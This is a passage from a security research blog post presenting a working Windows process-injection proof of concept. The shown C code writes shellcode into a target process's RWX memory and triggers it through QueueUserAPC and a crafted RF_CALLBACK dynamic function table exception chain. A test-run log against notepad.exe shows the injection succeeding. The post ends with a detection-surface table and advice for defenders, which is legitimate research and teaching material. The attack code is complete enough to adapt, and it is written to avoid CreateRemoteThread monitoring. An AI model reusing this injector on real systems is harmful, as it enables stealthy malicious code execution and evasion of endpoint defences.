    }
    ULONG_PTR allocBase = (ULONG_PTR)remoteMem;
    printf("[+] Allocated 0x%X bytes RWX at 0x%llX\n",
           allocSize, allocBase);

    /* Build and write payload */
    BYTE* payload = (BYTE*)malloc(allocSize);
    if (!payload) {
        printf("[-] malloc(%u) failed\n", allocSize);
        VirtualFreeEx(hProc, remoteMem, 0, MEM_RELEASE);
        CloseHandle(hProc); return 1;
    }
    BuildPayload(payload, allocSize, allocBase,
                 (ULONG_PTR)pInstallCb, (ULONG_PTR)pDelete,
                 shellcode, scSize);

    SIZE_T written;
    if (!WriteProcessMemory(hProc, remoteMem, payload,
                            allocSize, &written)) {
        printf("[-] WriteProcessMemory: %lu\n", GetLastError());
        free(payload);
        VirtualFreeEx(hProc, remoteMem, 0, MEM_RELEASE);
        CloseHandle(hProc); return 1;
    }
    printf("[+] Payload written (%llu bytes)\n",
           (ULONG_PTR)written);
    free(payload);

    /* Queue APC to target threads (no CreateRemoteThread) */
    DWORD threadIds[64];
    int threadCount = FindThreads(targetPid, threadIds, 64);
    if (!threadCount) {
        printf("[-] No threads found in target\n");
        VirtualFreeEx(hProc, remoteMem, 0, MEM_RELEASE);
        CloseHandle(hProc); return 1;
    }
    printf("[+] Found %d threads in target\n", threadCount);

    int queued = 0;
    for (int i = 0; i < threadCount; i++) {
        HANDLE hThread = OpenThread(THREAD_SET_CONTEXT,
                                     FALSE, threadIds[i]);
        if (hThread) {
            if (QueueUserAPC((PAPCFUNC)(allocBase + TRAMP_OFF),
                             hThread,
                             (ULONG_PTR)(allocBase + SD_OFF)))
                queued++;
            CloseHandle(hThread);
        }
    }
    printf("[+] APC queued to %d/%d threads\n",
           queued, threadCount);
    if (!queued) {
        printf("[-] Failed to queue APC to any thread\n");
        VirtualFreeEx(hProc, remoteMem, 0, MEM_RELEASE);
        CloseHandle(hProc); return 1;
    }

    /* Poll status byte (no thread handle to wait on) */
    printf("[*] Waiting for APC execution (60s timeout)...\n");
    BYTE status = 0;
    DWORD procExit = STILL_ACTIVE;
    for (int i = 0; i < 600; i++) {
        ReadProcessMemory(hProc, (PVOID)(allocBase + STAT_OFF),
                          &status, 1, NULL);
        GetExitCodeProcess(hProc, &procExit);
        if (status == 0xFF || procExit != STILL_ACTIVE)
            break;
        Sleep(100);
    }

    printf("[*] Target: 0x%lX %s\n", procExit,
           procExit == STILL_ACTIVE ? "(alive)" : "(EXITED)");
    printf("[*] Status: 0x%02X", status);
    switch (status) {
        case 0:    printf(" (never ran)\n"); break;
        case 1:    printf(" (crashed in InstallCallback)\n"); break;
        case 2:    printf(" (exception triggered, handler failed)\n"); break;
        case 3:    printf(" (crashed in DeleteFunctionTable)\n"); break;
        case 4:    printf(" (in shellcode)\n"); break;
        case 0xFF: printf(" (completed)\n"); break;
        default:   printf(" (unknown)\n"); break;
    }

    if (status == 0xFF)
        printf("\n[+] SUCCESS: RF_CALLBACK injection executed "
               "in PID %lu!\n", targetPid);
    else if (status >= 4 && procExit != STILL_ACTIVE)
        printf("\n[+] Shellcode executed (target exited - "
               "shellcode may call ExitProcess)\n");
    else if (status == 0)
        printf("\n[-] APC never fired (no alertable wait?)\n");
    else
        printf("\n[-] Injection did not complete "
               "(status=0x%02X)\n", status);

    Sleep(500);
    if (procExit == STILL_ACTIVE)
        VirtualFreeEx(hProc, remoteMem, 0, MEM_RELEASE);
    CloseHandle(hProc);
    printf("[+] Done.\n");
    return (status >= 4) ? 0 : 1;
}
```

## Test Run

Here's what a successful injection looks like against `notepad.exe`. The embedded shellcode pops `calc.exe` via `WinExec` and returns cleanly:

```
C:\> dfn_inject.exe 8520

=== Dynamic Function Table RF_CALLBACK Injection ===

[+] Shellcode: embedded WinExec calc (119 bytes)
[+] Target PID: 8520
[+] RtlInstallFunctionTableCallback: 0x7FFADEB4C3C0
[+] RtlDeleteFunctionTable:          0x7FFADEB55330
[+] Allocated 0x1000 bytes RWX at 0x1FA06EB0000
[+] APC stub:   110 bytes at +0x0 (len=0x1000)
[+] Callback:   8 bytes at +0x100
[+] ExcHandler: 18 bytes at +0x110
[+] Shellcode:  119 bytes at +0x400
[+] Payload written (4096 bytes)
[+] Found 5 threads in target
[+] APC queued to 5/5 threads
[*] Waiting for APC execution (60s timeout)...
[*] Target: 0x103 (alive)
[*] Status: 0xFF (completed)

[+] SUCCESS: RF_CALLBACK injection executed in PID 8520!
[+] Done.
```

Status `0xFF` confirms the full exception-driven chain completed: the APC stub registered the dynamic function table, triggered an intentional `ud2` exception, the OS dispatcher called `RtlLookupFunctionEntry` during its stack walk which invoked our RF_CALLBACK, the returned `RUNTIME_FUNCTION`/`UNWIND_INFO` directed the dispatcher to our exception handler which redirected execution past the fault, `RtlDeleteFunctionTable` cleaned up the entry, and the shellcode ran. Notepad stays alive, Calculator appears.

## Detection Surface

Let's talk about what this looks like from a defender's perspective.

| Artifact | Description |
|----------|-------------|
| `VirtualAllocEx` | RWX allocation in target (standard for most injection) |
| `WriteProcessMemory` | Payload write (standard) |
| `QueueUserAPC` | APC to existing thread - **no new thread created** |
| `RtlInstallFunctionTableCallback` | **Unique to this technique** - called inside target |
| `STATUS_ILLEGAL_INSTRUCTION` | Transient ud2 exception - handled internally, not visible to debugger unless first-chance |
| `RUNTIME_FUNCTION` / `UNWIND_INFO` | Crafted unwind data with exception handler in RWX memory |
| Dynamic function table entry | Transient; cleaned up by `RtlDeleteFunctionTable` |
| No modified existing data | No hooks, no patched pointers, no DLL loads at injection time |

The delivery avoids `CreateRemoteThread` entirely - one of the most heavily monitored injection indicators. `QueueUserAPC` to an existing thread is lower-profile: no new thread appears in the target, and the code runs in the natural context of an alertable wait.

Notably, **`RtlLookupFunctionEntry` is never called by the injected code** - it's invoked by the OS exception dispatcher (`RtlDispatchException`) as part of the normal stack walk during exception handling. This makes the trigger harder to detect via API monitoring, since the lookup happens inside ntdll's own exception dispatch path, indistinguishable from any other exception being handled.

What blue teams should watch for:

- **`RtlInstallFunctionTableCallback` calls from non-JIT contexts.** Legitimate callers are JIT engines (CLR, V8, Chakra). An application thread registering a function table for an RWX region is _very_ suspicious.
- **Dynamic function table registrations covering RWX memory.** JIT engines typically use RX (execute+read) after compilation. RWX is sloppy. _(Yes, our PoC is sloppy. No, I don't care for a PoC.)_
- **`QueueUserAPC` from a process writing to the target's memory.** Cross-reference `VirtualAllocEx` + `WriteProcessMemory` + `QueueUserAPC` - this triple is less commonly flagged than the classic `CreateRemoteThread` variant but equally suspicious.
- **The callback entry exists only transiently** - between the Install and Delete calls. Periodic snapshots of `RtlpDynamicFunctionTable` might miss it entirely.
- **Exception handlers in RWX memory.** A `RUNTIME_FUNCTION`/`UNWIND_INFO` chain pointing to an exception handler inside an RWX allocation is unusual - legitimate exception handlers live in mapped image sections, not dynamically allocated memory.

One thing to note is that if you can trigger a crash somehow at a PC within the registered range, you can skip the APC altogether(well, that is a topic for another time ¯\_(ツ)_/¯)


## References

- [Exception Handling (x64) - Microsoft Learn](https://learn.microsoft.com/en-us/cpp/build/exception-handling-x64)
- [RtlInstallFunctionTableCallback - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/winnt/nf-winnt-rtlinstallfunctiontablecallback)
- [RtlLookupFunctionEntry - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/winnt/nf-winnt-rtllookupfunctionentry)
- [DYNAMIC_FUNCTION_TABLE_TYPE - Microsoft Learn](https://learn.microsoft.com/pl-pl/windows/win32/devnotes/dynamic_function_table_type)
- [ReactOS DYNAMIC_FUNCTION_TABLE](https://fossies.org/dox/reactos-0.4.16/struct__DYNAMIC__FUNCTION__TABLE.html)
- [SRW Locks - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/sync/slim-reader-writer--srw--locks)
- [klezVirus - BYOUD: Bring Your Own Unwinding Data](https://klezvirus.github.io/posts/Byoud/) - Related work on dynamic function table internals for call-stack spoofing via `RtlAddFunctionTable` (Type 1). Presented at Black Hat Europe 2025.
- [NocturneLdr (xec412)](https://github.com/xec412/NocturneLdr) - Patches dynamic function table entry type from `RF_CALLBACK` to `RF_SORTED` for detection evasion.

> PS: This is the first time I have had claude/qwen help me write stuff because I wanted to get things out fast. I just wanted to be transparent about that - it's been a busy few weeks man.